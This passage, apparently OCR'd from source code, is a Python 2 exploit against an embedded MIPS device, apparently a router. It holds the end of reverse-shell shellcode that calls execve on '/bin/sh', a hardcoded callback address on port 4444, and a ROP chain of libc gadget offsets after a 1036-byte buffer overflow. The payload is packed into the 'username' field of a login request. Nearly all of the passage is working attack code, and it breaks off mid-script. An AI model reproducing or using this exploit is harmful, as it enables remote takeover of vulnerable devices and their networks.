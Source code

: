 ```python
    mipselshell+="\x73\x68\x0e\x3c"   # lui t6,0x6e2f "sh"
    mipselshell+="\x6e\x2f\xce\x35"   # ori t6,t6,0x7368 "n/"
    mipselshell+="\xf0\xff\xae\xaf"   # sw t6,-16(sp)
    mipselshell+="\xf4\xff\xa0\xaf"   # sw zero,-12(sp)
    mipselshell+="\xec\xff\xa4\x27"   # addiu a0,sp,-20
    mipselshell+="\xf8\xff\xa4\xaf"   # sw a0,-8(sp)
    mipselshell+="\xfc\xff\xa0\xaf"   # sw zero,-4(sp)
    mipselshell+="\xf8\xff\xa5\x27"   # addiu a1,sp,-8
    mipselshell+="\xab\x0f\x02\x24"   # li v0,4011 # sys_execve
    mipselshell+="\x0c\x01\x01\x01"  # syscall 0x40404
    print 'ending ...'
    return mipselshell
 
if __name__ == '__main__':
    libc_base = 0x77c38000
    sip='192.168.8.170'     #reverse_tcp local_ip
    sport = 4444            #reverse_tcp local_port
    host = socket.ntohl(struct.unpack('<I',socket.inet_aton(sip))[0])
    shellcode = makepayload(host,sport)
 
    try:
        ip = sys.argv[1]
    except:
        print "Usage: %s <target ip>" % sys.argv[0]
        sys.exit(1)
 
    payload = MIPSPayload(endianess="little", badbytes=[])
    payload.AddBuffer(1036)                            # fill offset = 1036
    payload.AddAddress(0x49818, base=libc_base)    # gadget 1: mipsrop.find("lw $ra, ") Modify register
    payload.AddAddress(0x0047E758)            # arg1
    payload.AddAddress(0x0047F758)            # arg2
    payload.AddAddress(0x00480758)            # arg3
    payload.AddBuffer(0xC)                                # fill
    payload.AddBuffer(0x4)                                # s0
    payload.AddAddress(0x4E320, base=libc_base)            # s1 sleep addr 0x4E320               
    payload.AddBuffer(0x4)                                # s2
    payload.AddBuffer(0x4)                                # s3
    payload.AddAddress(0x1E8AC, base=libc_base)            # s4 gadget 3: mipsrop.tail()            
    payload.AddBuffer(0x4)                                # s5
    payload.AddBuffer(0x4)                                # s6
    payload.AddBuffer(0x4)                                # s7
    payload.AddBuffer(0x4)                                # fp
    payload.AddAddress(0x4F970, base=libc_base)            # gadget 2: mipsrop.find("li $a0,1")                
    payload.AddBuffer(0x1C)                                # 0x28 - 0xc = 0x1c   
    payload.AddAddress(0x4AC20, base=libc_base)            # s1 gadget 5: mipsrop.find("move $t9,$s0") 
    payload.AddBuffer(0x4)                                # s2
    payload.AddAddress(0x16BC8, base=libc_base)            # ra gadget 4: mipsrop.stackfinder()         
    payload.AddBuffer(0x4)                                # s0
    payload.AddBuffer(0xC)                                # 0xD8 - 0xC8 => 0x10 - 0x4 = 0xC
    payload.Add(shellcode)
 
    pdata = {
        'opt'    : 'Login',
        'state'                : 'login',
        'username'            :  payload.Build()
    }
 
    try:
```